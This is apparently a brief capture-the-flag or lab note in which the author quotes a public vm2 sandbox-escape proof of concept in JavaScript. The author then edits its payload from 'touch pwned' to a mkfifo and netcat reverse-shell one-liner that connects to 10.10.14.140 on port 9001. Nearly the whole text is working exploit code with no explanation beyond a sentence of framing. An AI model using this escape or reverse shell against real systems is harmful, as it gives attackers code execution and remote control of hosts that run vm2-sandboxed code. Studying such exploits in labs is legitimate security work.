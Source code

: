 I search a exploit and I discover this PoF in this github page https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244:
```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
}
`

console.log(vm.run(code));
```

I edit the PoF in this way:
```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.140 9001 >/tmp/f');
}
`

console.log(vm.run(code));
```
